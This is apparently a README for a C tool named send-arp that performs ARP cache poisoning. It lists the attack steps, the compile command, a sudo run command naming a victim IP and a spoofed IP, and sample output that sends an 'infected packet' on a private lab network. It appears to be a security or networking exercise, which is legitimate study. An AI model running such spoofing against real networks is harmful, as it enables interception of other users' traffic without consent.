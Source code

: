 # send-arp
[ref1](http://www.binarytides.com/c-program-to-get-ip-address-from-interface-name-on-linux/)
[ref2](http://www.programming-pcap.aldabaknocking.com/code/arpsniffer.c)

1. send ARP request to the sender
2. get the ARP reply (the sender's `MAC address`)
3. send ARP reply to the sender with the attacker's `MAC address` and the target's `IP address`

### OS
```
Ubuntu 16.04.2
```

### Language
```
C
```

### Compile & Execute
```
gcc -o arp arp.c -lpcap
```
```
sudo ./arp ens33 192.168.242.147 8.8.8.8
```

### Result
```
============= Send ARP =============
******* get attacker's info *******
attacker MAC 0:c:29:53:b3:dd 
attacker IP  192.168.242.180
******** get sender's info ********
sender MAC   0:c:29:48:20:4c 
sender IP    192.168.242.147
****** send infected packet *******
src MAC      0:c:29:53:b3:dd 
src IP       8.8.8.8
dst MAC      0:c:29:48:20:4c 
dst IP       192.168.242.147
====================================
```

